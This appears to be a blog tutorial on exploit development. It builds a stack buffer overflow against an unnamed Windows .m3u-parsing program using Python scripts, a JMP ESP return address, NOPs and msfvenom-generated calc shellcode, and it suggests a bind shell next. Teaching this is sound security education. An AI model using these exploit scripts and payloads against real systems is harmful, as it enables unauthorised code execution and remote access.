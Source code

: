 ```yaml
---
layout: post
title:  "Reverse Engineering and Exploit Development Made Easy - Chapter 2"
date:   2019-07-08
categories: Exploit Dev
tags: [RE, Reverse Enginering, Exploit Development]
author: 4p0cryph0n
---
```


### Reverse Engineering and Exploit Development Made Easy - Chapter 2 ###

**:****~****# ./chapt2**

Welcome back! In the previous chapter, we focused on the basics of reverse engineering, and gained control of the EIP register using our first binary. Now, let's dive into the fun stuff: shellcoding!

So, two things need to be done now:

1) Place shellcode in ESP (Basically an encoded payload. For example, bind shell or cmd exec.)

2) Replace EIP with a JMP instruction that points to our shellcode in ESP. A JMP instruction will jump to the shellcode and execute it.

First, in order to make sure that all of our shellcode is going into ESP, let's send a recognisable pattern. This way, we will be able to notice if some of our shellcode is getting cut, which can render our exploit unusable. I'll be using the pattern from the Corelan website itself:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + buf))
string = junk1 + eip + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's save the file and put it through the debugger.

![image1](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image1.png)

So the highlighted value is what is in ESP. As you can see, our pattern is missing 4 bytes (1ABC), which means that the shellcode that's going in ESP is incomplete. This has a simple solution, all we have to do is add 4 bytes before our shellcode. I'll name this variable preesp.

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
preesp = "XXXX"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + buf))
string = junk1 + eip + preesp + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's put this through the debugger :)

![image2](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image2.png)

Now, let's look for a JMP ESP instruction. This instruction should belong to one of the application's DLL. Immunity will help us with this hunt :)

Run the program but do nothing, and right click anywhere in the CPU window and click on Search for > All commands in all modules. Like so:

Alright! Our test shellcode is going in just fine. Now, let's look for a jump ESP instruction.

Right-click anywhere in the CPU window, and search for all commands in all modules. Like so:

![image3](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image3.png)

Enter jmp esp in the popup box and click find.

![image4](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image4.png)

This instruction looks good. Copy the address, and then click on View in the toolbar, and click CPU to go back to the CPU window.

![image5](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image5.png)

Now, replace the 4 Bs in your code with this address. But remember one thing, this highlighted address is in the big Endian format. Computers can't read the address in in our code if we send it in big Endian. We need to change it into little Endian, which is the reverse of this (i.e. 3AF2D201). This is how we will include that address in our code:

```python
eip = "\x34\xF2\xD2\x01"
```

Now, let's generate some shellcode! I'm going to generate shellcode that will open the Calculator application (calc.exe) in Windows XP, just as a test. If this works, we can put a bind shell one in. For this, we will be using Metasploit.

`msfvenom -a x86 --platform windows -p windows/exec CMD="calc" --encoder x86/alpha_upper -f py`

The '--encoder' flag selects an encoder, in our case it's x86/alpha_upper. The '-f' flag tells it to print the payload for a python file. Now, let's add some NOPS (No operations, 90) and paste this in our code and watch the magic!

Your final code should look something like this:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "\x3A\xF2\xD2\x01"
preesp = "XXXX"
nops = "\x90"*25
buf = ""
buf += "\xd9\xe9\xd9\x74\x24\xf4\xbb\xcb\x65\x09\xdf\ #..... and so on
buf3 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + nops + buf + buf3
print(len(string))
f.write(string)
f.close()
```

![image6](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image6.png)

Congratulations on your first successful exploit! Now, I want you to try and replace the calculator shellcode with a windows bind shell shellcode and get a shell. In the next chapter, we will cover more ways in which we can execute our shellcode. We will see the other instructions that can replace our JMP ESP instruction.

